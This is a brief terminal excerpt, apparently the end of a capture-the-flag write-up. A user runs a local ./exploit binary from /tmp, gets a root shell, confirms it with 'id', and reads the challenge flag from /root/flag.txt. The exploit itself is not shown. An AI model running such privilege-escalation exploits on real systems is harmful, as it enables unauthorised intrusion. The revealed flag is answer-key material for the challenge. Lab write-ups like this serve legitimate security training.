drwxrwxrwt  2 root    root      4096 Jan 19 03:15 .XIM-unix
elpenor@dev01:/tmp$ ./exploit
bash-5.0# id
uid=0(root) gid=0(root) groups=0(root),1000(elpenor)
bash-5.0# cd /root
bash-5.0# ls
flag.txt  Solaris
bash-5.0# cat flag.txt
ODYSSEY{74k3_c4R3_0f_Y0uR_R4nCH}
bash-5.0#
```

&nbsp;